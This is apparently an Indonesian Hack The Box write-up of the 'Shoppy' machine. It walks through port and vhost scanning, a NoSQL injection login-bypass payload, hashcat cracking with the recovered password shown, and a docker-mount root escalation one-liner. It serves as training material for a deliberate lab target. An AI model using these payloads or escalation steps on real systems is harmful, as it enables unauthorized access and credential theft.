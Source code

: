 ```yaml
---
description: Writeup mesin Hack The Box Shoppy
---
```


# Shoppy

### Port Scanning

```bash
sudo nmap -sV -sT -sC -oN nmap_initial -T4 shoppy.htb
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-title:             Shoppy Wait Page        
|_http-server-header: nginx/1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Hasil dari port scanning hanya menunjukkan port 80 dan 22. Sambil menunggu full port scan, kita bisa enumerasi directory dan subdomain.

### Directory Scanning

```
ffuf -recursion-depth 3 -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://shoppy.htb/FUZZ -r
......
________________________________________________

login                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 559ms]
admin                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 261ms]

```

### Vhost Discovery

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://shoppy.htb -H "Host: FUZZ.shoppy.htb"
....
________________________________________________

mattermost              [Status: 200, Size: 3122, Words: 141, Lines: 1, Duration: 195ms]
```

Jangan lupa tambahkan subdomain yang kita temukan ke /etc/hosts.

Oke dari enumerasi awal, kita mendapatkan data berikut:

* Open Port: 80, 22
* Admin Page: [http://shoppy.htb/admin](http://shoppy.htb/admin)
* Other Subdomain: [http://mattermost.shoppy.htb/](http://mattermost.shoppy.htb/)

### Initial Access

NoSQL Injection at Login Page

Setelah beberapa kali melakukan fuzzing dan trial error, saya berhasil masuk ke dashboard admin menggunakan payload berikut:

```
admin'||1==1%00
```

<figure><img src="../../.gitbook/assets/sql injection (1).png" alt=""><figcaption><p>NoSQL Auth Bypass</p></figcaption></figure>

Referensi:

{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

<figure><img src="../../.gitbook/assets/dashboard admin.png" alt=""><figcaption></figcaption></figure>

Tidak banyak menu yang bisa di explore. Jadi kita langsung coba cek di menu Search for Users. Kita gunakan payload yang sebelumnya kita pakai untuk masuk.

<figure><img src="../../.gitbook/assets/search sqli.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/username lists.png" alt=""><figcaption></figcaption></figure>

Menggunakan hash-identifier, kita bisa mengetahui jenis hash nya.



<figure><img src="../../.gitbook/assets/hashid.png" alt=""><figcaption></figcaption></figure>

Menggunakan wordlist rockyou yang ada di Kali Linux, kita crack dua hash password yang kita dapat sebelumnya menggunakan hashcat.

```
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.lst 
```

<figure><img src="../../.gitbook/assets/hash cracked (1).png" alt=""><figcaption></figcaption></figure>

Satu password berhasil di crack, yakni password milik **josh**.

```
6ebcea65320589ca4f2f1ce039975995:remembermethisway
```

Kita gunakan kredensial tersebut untuk login ke dashboard Mattermost.

Akses:

* Login: **http://mattermost.shoppy.htb/**
* Username: **josh**
* Password: **remembermethisway**

Pada channel Deploy Machine, kita akan mendapatkan history chat yang menampikan kredensial yang dapat kita gunakan untuk login SSH.



<figure><img src="../../.gitbook/assets/jaegar creds ssh.png" alt=""><figcaption><p>SSH Creds</p></figcaption></figure>

### Get User Flag

Login ke server menggunakan kredensial yang didapat sebelumnya.

<figure><img src="../../.gitbook/assets/user pwned.png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

Pertama, jalankan command

```
sudo -l
```

Dan masukkan password user jaegar yang kita dapat sebelumnya.

```
User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

Selanjutnya kita jalankan command

```
sudo -u deploy /home/deploy/password-manager
```

Namun ternyata kita harus memasukkan password.

<figure><img src="../../.gitbook/assets/wrong password manager.png" alt=""><figcaption></figcaption></figure>

Oke, selanjutnya kita download file password-manager ke mesin kita. Lalu kita coba analisa menggunakan **Cutter**. Tidak diperlukan skill reverse engineering disini (karena ini juga mesin dengan kategori Easy), dan Master Password nya bisa langsung kita temukan karena disimpansecara hard-coded didalam aplikasi.

<figure><img src="../../.gitbook/assets/cutter.png" alt=""><figcaption></figcaption></figure>

Selanjutnya kita gunakan password yang kita dapatkan dari step sebelumnya untuk mengeksekusi password-manager.

<figure><img src="../../.gitbook/assets/pass manager leak.png" alt=""><figcaption></figcaption></figure>

Selanjutnya kita gunakan kredensial tersebut untuk login ke user deploy.

<figure><img src="../../.gitbook/assets/user deploy.png" alt=""><figcaption><p>Move to user deploy</p></figcaption></figure>

Saat menjalankan perintah **sudo -l** kita mendapati error

```
Sorry, user deploy may not run sudo on shoppy.
```

Setelah menjalankan LinPEAS, kita mendapati info bahwa docker kemungkinan adalah PE Vector.

<figure><img src="../../.gitbook/assets/DeployDocker PE Vector.png" alt=""><figcaption><p>PE via Docker</p></figcaption></figure>

Untuk trick PE via docker, kita bisa cek di GTFObins.

* [https://gtfobins.github.io/gtfobins/docker/](https://gtfobins.github.io/gtfobins/docker/)

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt bash
```

<figure><img src="../../.gitbook/assets/root pwned.png" alt=""><figcaption><p>Rooted</p></figcaption></figure>

Oke mungkin itu saja write-up kali ini. Semoga ada yang bisa dipelajari dari writeup mesin Shoppy.

